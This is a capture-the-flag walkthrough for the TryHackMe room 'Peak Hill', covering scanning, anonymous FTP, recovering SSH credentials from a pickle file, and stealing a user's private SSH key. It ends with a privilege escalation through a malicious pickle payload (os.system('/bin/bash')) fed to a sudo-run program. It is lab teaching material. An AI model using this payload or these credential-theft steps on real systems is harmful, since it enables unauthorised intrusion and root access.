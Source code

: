 # Peak Hill

**Room Link:** [**https://tryhackme.com/room/peakhill**](https://tryhackme.com/room/peakhill)



## **Scans**

Initial scan

**Kali**

```
nmap -A $VICTIM
```

<figure><img src="../../.gitbook/assets/image (775).png" alt=""><figcaption></figcaption></figure>

Longer scan

**Kali**

```
nmap -sV -sT -O -p 1-65535 $VICTIM
```

<figure><img src="../../.gitbook/assets/image (777).png" alt=""><figcaption></figcaption></figure>

## TCP/21 - **FTP**

**Kali**

```
ftp $VICTIM 21
username: anonymous
```

There was just one file with no info.

**Kali(ftp)**

```
ls -lah
binary
passive
get test.txt
get .creds
```

<figure><img src="../../.gitbook/assets/image (776).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (778).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (779).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (781).png" alt=""><figcaption></figcaption></figure>

#### Decrypt Program

#### read.py

```
import pickle

with open("download.dat", "rb") as file:
	pickle_data = file.read()
	creds = pickle.loads(pickle_data)
	print(creds)
```

**Kali**

```
python read.py
```

<figure><img src="../../.gitbook/assets/image (782).png" alt=""><figcaption></figcaption></figure>

**output.txt**

```
[('ssh_pass15', 'u'), ('ssh_user1', 'h'), ('ssh_pass25', 'r'), ('ssh_pass20', 'h'), ('ssh_pass7', '_'), ('ssh_user0', 'g'), ('ssh_pass26', 'l'), ('ssh_pass5', '3'), ('ssh_pass1', '1'), ('ssh_pass22', '_'), ('ssh_pass12', '@'), ('ssh_user2', 'e'), ('ssh_user5', 'i'), ('ssh_pass18', '_'), ('ssh_pass27', 'd'), ('ssh_pass3', 'k'), ('ssh_pass19', 't'), ('ssh_pass6', 's'), ('ssh_pass9', '1'), ('ssh_pass23', 'w'), ('ssh_pass21', '3'), ('ssh_pass4', 'l'), ('ssh_pass14', '0'), ('ssh_user6', 'n'), ('ssh_pass2', 'c'), ('ssh_pass13', 'r'), ('ssh_pass16', 'n'), ('ssh_pass8', '@'), ('ssh_pass17', 'd'), ('ssh_pass24', '0'), ('ssh_user3', 'r'), ('ssh_user4', 'k'), ('ssh_pass11', '_'), ('ssh_pass0', 'p'), ('ssh_pass10', '1')]
```



**Kali**

```
cat output.txt | sed "s/), (/)\n/g" | grep ssh_user
```

<figure><img src="../../.gitbook/assets/image (783).png" alt=""><figcaption></figcaption></figure>

**Username**

```
gherkin
```

**Kali**

```
cat output.txt | sed "s/), (/)\n/g" | grep ssh_pass
```

<figure><img src="../../.gitbook/assets/image (784).png" alt=""><figcaption></figcaption></figure>

**Password**

```
p1ckl3s_@11_@r0und_th3_w0rld
```

## TCP/22 - **SSH**

**Kali**

```
ssh gherkin@$VICTIM
Password:p1ckl3s_@11_@r0und_th3_w0rld
```

<figure><img src="../../.gitbook/assets/image (785).png" alt=""><figcaption></figcaption></figure>

There is a pyc file in the home directory.  .pyc are automatically generated by the interpreter when you import a module, which speeds up future importing of that module. These files are therefore only created from a .py file if it is imported by another .py file or module. We can use the uncompyle6 (A native Python cross-version decompiler and fragment decompiler to get the original python file.

**Victim**

```
ls -lah
cat cmd_service.pyc
```

<figure><img src="../../.gitbook/assets/image (786).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (787).png" alt=""><figcaption></figcaption></figure>

Transfer file then decompile it

**Kali**

```
scp gherkin@$VICTIM:/home/gherkin/cmd_service.pyc /root/
Password: p1ckl3s_@11_@r0und_th3_w0rld
```

**Kali**

```
sudo pip install uncompyle6
uncompyle6 cmd_service.pyc 
```

We can see some interesting things from the file. A username and password and something runnining on port 7321 which also came up on our scans.

<figure><img src="../../.gitbook/assets/image (788).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (789).png" alt=""><figcaption></figcaption></figure>

Took a piece of the code to get the username and password.

**output.py**

```
from Crypto.Util.number import bytes_to_long, long_to_bytes
import sys, textwrap, socketserver, string, readline, threading
from time import *                 
import getpass, os, subprocess 

username = long_to_bytes(1684630636)
password = long_to_bytes(2457564920124666544827225107428488864802762356)

print(username)
print(password)
```



**Kali**

```
python output.py
```

<figure><img src="../../.gitbook/assets/image (790).png" alt=""><figcaption></figcaption></figure>

## TCP/7321 - Script

**Kali**

```
nc $VICTIM 7321
Username: dill
Password: n3v3r_@_d1ll_m0m3nt
```

<figure><img src="../../.gitbook/assets/image (791).png" alt=""><figcaption></figcaption></figure>



**Kali**

```
Cmd: ls -lah /home/dill/.ssh
Cmd: cat /home/dill/.ssh/id_rsa
cat /home/dill/.ssh/id_rsa > /tmp/id_rsa
```

<figure><img src="../../.gitbook/assets/image (792).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (793).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
scp gherkin@$VICTIM:/tmp/id_rsa /root/
Password: p1ckl3s_@11_@r0und_th3_w0rld
```

**Kali**

```
chmod 600 id_rsa
ssh -i id_rsa dill@$VICTIM
```

<figure><img src="../../.gitbook/assets/image (794).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
sudo -l
```

<figure><img src="../../.gitbook/assets/image (795).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
sudo /opt/peak_hill_farm/peak_hill_farm
pickle
```

<figure><img src="../../.gitbook/assets/image (796).png" alt=""><figcaption></figcaption></figure>





**serial.py**

```
import pickle
import os
import base64
class EvilPickle(object):
	def __reduce__(self):
		return (os.system, ('/bin/bash', ))
pickle_data = pickle.dumps(EvilPickle())
payload = base64.b64encode(pickle_data)
print (payload)
```

**Kali**

```
python serial.py 
```

<figure><img src="../../.gitbook/assets/image (797).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
sudo /opt/peak_hill_farm/peak_hill_farm
gANjcG9zaXgKc3lzdGVtCnEAWAkAAAAvYmluL2Jhc2hxAYVxAlJxAy4=
```

<figure><img src="../../.gitbook/assets/image (798).png" alt=""><figcaption></figcaption></figure>
































